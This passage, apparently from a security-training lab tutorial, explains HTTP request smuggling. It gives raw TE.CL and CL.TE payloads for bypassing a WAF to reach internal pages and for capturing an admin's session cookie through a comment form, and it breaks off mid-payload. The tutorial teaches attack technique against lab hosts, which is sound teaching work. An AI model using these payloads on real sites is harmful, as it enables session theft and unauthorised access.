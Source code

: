 While a payload for a TE.CL vulnerability could look similar to this:

```http
GET / HTTP/1.1
Host: vuln.htb
Content-Length: 4
Transfer-Encoding: chunked

35
GET /internal/index.php HTTP/1.1
Host: localhost

0

```

Since the malicious request is smuggled in the request body, the WAF never treats it as part of the query string and thus does not consider it. However, the web server treats it as a regular HTTP request and thus serves a response. This discrepancy allows bypasses of WAFs and other security controls.

* * *

## Stealing User Data

In the previous sections about CL.TE vulnerabilities, we forced the admin user to promote our user to the admin role. We have thus already seen how to exploit request smuggling vulnerabilities to force authenticated users to perform actions in the web application by influencing the parameters of other users' requests. Additionally, we can steal other users' information by forcing them to submit their request parameters to a location we can later access.

Let's have a look at a practical example. For this, our lab was extended with the functionality to post comments which are then displayed publicly:

![](BH0cLwlFOE89.png)

Looking at the traffic in Burp, the request to post a comment looks like this:

```http
POST /comments.php HTTP/1.1
Host: stealingdata.htb
Content-Length: 43
Content-Type: application/x-www-form-urlencoded

name=htb-stdnt&comment=Hello+World%21

```

We can use the process discussed in the previous sections to determine that the lab is vulnerable to a `CL.TE` request smuggling vulnerability. The lab also contains an admin section that we are unauthorized to access. Let's steal the admin user's session cookie by exploiting the CL.TE vulnerability to obtain access. We can achieve this by forcing the admin user to post their request as a comment in the comment section with the following request:

```http
POST / HTTP/1.1
Host: stealingdata.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Transfer-Encoding: chunked

0

POST /comments.php HTTP/1.1
Host: stealingdata.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

```